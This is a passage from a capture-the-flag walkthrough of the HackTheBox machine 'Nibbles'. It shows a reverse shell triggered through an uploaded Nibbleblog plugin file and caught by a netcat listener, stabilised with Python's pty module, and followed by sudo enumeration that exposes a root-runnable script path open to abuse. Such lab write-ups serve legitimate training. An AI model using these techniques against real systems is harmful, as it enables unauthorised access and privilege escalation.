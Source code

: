 and navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php to trigger it.

Nice! We have a shell back in our netcat listener as user nibbler!

```text
┌──(ryan㉿kali)-[~/HTB/Nibbles]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.75] 50406
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:31:38 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
```

Lets quickly stabilize the shell using python:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

From here I can grab the first flag user.txt:

![user_flag.png](../assets/nibbles_assets/user_flag.png)

### Privilege Escalation

First thing I always do when beginning to look into escalating privileges is to run `sudo -l` to see if I can run any commands with elevated privileges. In this case the command gets me back some interesting results:

```text
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Looks like I can run `/home/nibbler/personal/stuff/monitor.sh` as root! Let's check out that file:

```text
nibbler@Nibbles:/home/nibbler$ cat /home/nibbler/personal/stuff/monitor.sh
cat /home/nibbler/personal/stuff/monitor.sh
cat: /home/nibbler/personal/stuff/monitor.sh: No such file or directory
```
Oh interesting, that file doesn't appear to actually exist. However, I did see in nibbler's home directory a file called personal.zip. Unzipping this file inflates a monitor.sh, which we can hopefully use to escalate privileges.
